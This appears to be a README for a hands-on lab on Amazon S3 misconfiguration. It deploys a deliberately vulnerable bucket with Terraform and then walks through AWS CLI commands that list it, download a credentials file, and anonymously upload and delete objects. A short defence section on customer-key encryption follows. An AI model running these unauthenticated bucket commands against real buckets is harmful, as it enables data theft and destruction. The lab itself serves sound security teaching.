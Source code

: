 # S3 Misconfiguration

## Follow the below instructions given to solve this Lab

### please install the below cli tools 


* AWS CLI

```bash
sudo apt-get install awscli
```
* Terraform - click on the below link for further help on on installing 

```bash
https://developer.hashicorp.com/terraform/tutorials/aws-get-started/install-cli
```

* Step 1 Clone the repository 

```bash
git clone https://github.com/bvabhishek/s3misconfiguration.git
```
* Step 2: Change Directory

```bash
cd /s3misconfiguration
```
* Step 3: Initialise terraform 

```bash
terraform init
```

* Step 4: Run `terraform apply -auto-approve`

```bash
terraform apply -auto-approve
```

* Step 5: Export bucket name
```bash
export s3bucket=<bucketname> 
```

* Step 6: Lets try to list down the contents of bucket

```bash
aws s3 ls s3://$s3bucket
```

* Step 7: Now lets perform all the possible attack scenario 

* Step 8: Lets first download the fishy files - change to your current working directory

```bash
aws s3 cp s3://$s3bucket/creds.txt /home/abhi/seasides/

```
* To download all the files from the bucket use sync command

```bash
aws s3 sync s3://$s3bucket /home/abhi/seasides/test/
```

* Step 9: Let's upload a new file 

```bash
aws s3 cp seasides.jpeg s3://$s3bucket --no-sign-request --region us-west-2
```

* Step 10: Let's Delete a file 


```bash
aws s3 rm s3://$s3bucket/emp_pay_dont_delete.csv --no-sign-request --region us-west-2
```


* By this we know that the attacker has performed all the malicious functionalities ie, CRUD operations which leads to Vulnerabilities such as 
* Broken Authentication
* Sensitive Information Disclosure 

# Defence with Encryption

Using Server Side encryption with Customer provided keys.

Step 1: Create a secrete file called secret.txt

```bash
echo "Welcome to Seasides, Your secret coupon is HASDJFH324878QWER" > secret.txt
```
Step 2: Lets generate a ecnryption key with AES-128-CBC encryption algorithm with openssl
note openssl is a widely used open-source cryptographic library and toolset

```bash
openssl enc -aes-128-cbc -k secret -P
```
Step 3: lets make the key an environmental variable

```bash
export key=<value of key>
```
Step 4: Lets upload the secret file along with the header encryption key
```bash
aws s3 cp secret.txt s3://$s3bucket/ --sse-c --sse-c-key $key
```

Now, Go to the console and try to access or view the secret file 

Step 5: Try to download the secret file 

```bash
aws s3 cp s3://$s3bucket/secret.txt .
```
It is clear that
* we wont be able to retrive or access those objects which have client side encryption.
* we wont be able to view the encrypted object in AWS Console

Step 6: Lets retrive it with our encryption key

```bash
aws s3 cp s3://$s3bucket/secret.txt . --sse-c --sse-c-key $key
```

 
